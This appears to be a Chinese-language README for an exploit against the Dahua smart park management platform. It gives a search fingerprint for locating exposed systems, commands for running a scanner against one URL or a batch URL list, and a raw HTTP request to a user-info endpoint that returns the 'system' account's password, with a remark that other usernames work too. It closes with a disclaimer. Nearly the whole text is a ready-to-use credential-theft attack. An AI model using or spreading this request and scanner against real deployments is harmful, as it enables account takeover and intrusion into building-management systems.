

# 大华智慧园区密码泄露

大华智慧园区存在任意密码读取攻击

## 指纹

app="dahua-智慧园区综合管理平台"

## 工具利用

python3 Dahua_systempass_scan.py -u http://127.0.0.1:1111 单个url测试

python3 Dahua_systempass_scan.py -f url.txt 批量检测



修改userName参数可读取其他系统存在用户的密码

```
GET /admin/user_getUserInfoByUserName.action?userName=system HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.1197.116 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close

```

## 免责声明

由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。
